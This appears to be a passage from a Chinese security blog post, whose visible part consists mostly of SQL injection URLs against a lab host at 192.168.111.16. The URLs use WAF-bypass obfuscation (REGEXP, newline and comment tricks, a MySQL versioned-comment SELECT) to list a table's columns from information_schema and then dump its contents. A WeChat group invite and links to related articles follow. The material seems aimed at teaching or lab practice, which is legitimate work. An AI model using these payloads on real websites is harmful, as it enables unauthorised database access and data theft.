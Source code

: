   

## 获取表字段

http://192.168.111.16/index.php?id=-1 REGEXP "[…%0a%23]" / _%2a%%2f_ /union/
_%2f%2f_ // _!50144select_ // _%2f%2f_ /1,group_concat(column_name),3  %0a
from information_schema.columns where table_name="newss"

![](https://gitee.com/fuli009/images/raw/master/public/20230222174221.png)

## 获取数据

http://192.168.111.16/index.php?id=-1 REGEXP "[…%0a%23]" / _%2a%%2f_ /union/
_%2f%2f_ // _!50144select_ // _%2f%2f_ /1,content,3  %0a  from newss

![](https://gitee.com/fuli009/images/raw/master/public/20230222174222.png)

加下方微信，拉你一起进群学习

![](https://gitee.com/fuli009/images/raw/master/public/20230222174223.png)

往期推荐

[

软件调试详解

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247495570&idx=1&sn=1eaf3a28aa19b1c676bc740359f79124&chksm=ce67552ef910dc38888ad1440e924455e61339fbcc38a805b9ce14b946b58d955d0826d2a2e5&scene=21#wechat_redirect)[

初探windows异常处理

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247495224&idx=1&sn=7052bb8495ba625afffb53e1cb67182b&chksm=ce675484f910dd922edf20ac385d83910d1e4a4343e11bb9a926bce1834f4d18cda5df55449a&scene=21#wechat_redirect)[

浅谈hook攻防

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247494646&idx=1&sn=18642da97929e4e6cb7bb46627a77883&chksm=ce67514af910d85c5c74b9e4d883ed423f6c07253836aa47d77fccdfa8931e77e8c9d236dc93&scene=21#wechat_redirect)[

无处不在的dll劫持

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247494314&idx=1&sn=41e5f267a2640c9d461f2f2716b51660&chksm=ce675016f910d9007d30eb432a61ec64e835d7095c1260cccc0786970000edc7788c8bb18ba8&scene=21#wechat_redirect)[

CVE-2021–26855与CVE-2021–27065分析及复现

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247494271&idx=1&sn=494c5be0aff6e7636457abf50042045f&chksm=ce6750c3f910d9d5818a5b54064058292fda5639fef69f816c6a6ec2b4448c0a4fc781192158&scene=21#wechat_redirect)[

Windows环境下的调试器探究

